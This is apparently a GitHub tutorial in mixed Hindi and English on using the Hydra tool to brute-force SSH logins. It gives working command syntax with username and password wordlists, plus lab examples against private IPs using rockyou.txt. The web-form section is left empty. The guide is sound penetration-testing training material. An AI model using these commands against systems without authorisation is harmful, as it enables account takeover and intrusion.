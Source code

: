 <!-- TOC -->

- [What is SSH Secure Shell?](#what-is-ssh-secure-shell)
- [What is Hydra?](#what-is-hydra)
    - [Installing Hydra](#installing-hydra)
        - [How to Work with Hydra](#how-to-work-with-hydra)
    - [How to use Hydra to Brute-Force SSH Connections?](#how-to-use-hydra-to-brute-force-ssh-connections)
        - [Usage:](#usage)
    - [Brute-Force SSH Web Form](#brute-force-ssh-web-form)
        - [Example 1: Bruteforcing Both Usernames And Passwords](#example-1-bruteforcing-both-usernames-and-passwords)
        - [Example 2: Bruteforcing Passwords](#example-2-bruteforcing-passwords)
    - [Brute-Force Post Web Form](#brute-force-post-web-form)

<!-- /TOC -->

# What is SSH (Secure Shell)?


- SSH (Secure Shell) ek cryptographic network protocol hai jo unsecured networks par secure communication ke liye istemal hota hai. Unsecured networks wo networks hote hain jin par kisi bhi tarah ka security mechanism nahi hota, jaise ki public Wi-Fi hotspots ya phir internet par data transmit karne wale open networks. 

- SSH allows secure remote access to systems, file transfers, aur doosre network services by encrypting data transmission between clients and servers. Iske istemal se data ki suraksha bani rahti hai aur kisi bhi tarah ke unauthorized access ya phir data ko churane ki koshish ko roka ja sake. 

- SSH ko remote administration aur secure file transfer ke liye wide taur par istemal kiya jata hai, jo data ke confidentiality aur integrity ko maintain karta hai.

<img src="https://media.geeksforgeeks.org/wp-content/uploads/20220709163609/download.jpg">



# What is Hydra?


- Hydra was developed by the hacker group “The Hacker’s Choice”. Hydra was first released in 2000 as a proof of concept tool that demonstrated how you can perform attacks on network logon services.

- Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.


- Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

- Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.



- This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. 

- A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use `admin:password` as the default login credentials, which is obviously not strong enough.

## Installing Hydra

- Hydra comes pre-installed with Kali Linux and Parrot OS. So if you are using one of them, you can start working with Hydra right away.

- Hydra is already installed on the AttackBox. You can access it by clicking on the Start AttackBox button.



- On Ubuntu, you can use the apt package manager to install it:

````bash
$ apt install hydra
````


### How to Work with Hydra

- If you have installed Hydra, you can start with the help command like this:


````bash
$ hydra -h
````

- This will give you the list of flags and options that you can use as a reference when working with Hydra.


<img src="https://miro.medium.com/max/1400/1*8vU8A1khpqIpOElesAkl4A.png">





## How to use Hydra to Brute-Force SSH Connections?


`Syntax`
````bash
$ hydra -l <username> -P <full path to password word list> MACHINE_IP -t 4 ssh

````


<table>
  <tr>
    <th>Option</th>
    <th>Description</th>

  </tr>
  <tr>
    <td>-l</td>
    <td> specifies a (SSH) username for login during a brute force attack.  </td>

  </tr>
  <tr>
    <td>-P</td>
    <td>Specifies a password wordlist to use during a brute force attack. </td>

  </tr>
  <tr>
    <td>-t</td>
    <td>sets the number of threads to spawn</td>

  </tr>
  
</table>

### Usage:











##  Brute-Force SSH Web Form


### Example 1: Bruteforcing Both Usernames And Passwords


`Syntax`
````bash
$ hydra -L user.txt -P pass.txt <IP> ssh -t 4
````

`Example ;-`
- Type the below command on the terminal and hit Enter.

````bash
$ hydra -L user.txt -P pass.txt 192.168.29.135 ssh -t 4
````


- `-l` specifies a `username` during a brute force attack.
-` -L` specifies a `username wordlist` to be used during a brute force attack.
- `-p` specifies a `password` during a brute force attack.
- `-P` specifies a `password wordlist` to use during a brute force attack.
- `-t `set to 4, which ` sets the number of parallel tasks ` (threads) to run.

<img src="https://media.geeksforgeeks.org/wp-content/uploads/20220709163907/Screenshot20220709163854.png">


### Example 2: Bruteforcing Passwords 

- in this example you have username but you don,t have password

`syntax`

```bash

$ sudo hydra -l <userName> -P passwordlist.txt <IP> -V -f

$ ssh <Your UserName>@<Ip>
```

`Example`

```bash
$ sudo hydra -l molly -P rockyou.txt 10.10.236.46 -V -f

$ ssh molly@10.10.236.46
```

<img src="Image/Screenshot_20240526_152316.png">
`next`
<img src="Image/Screenshot_20240526_152348.png">


## Brute-Force Post Web Form

 SSH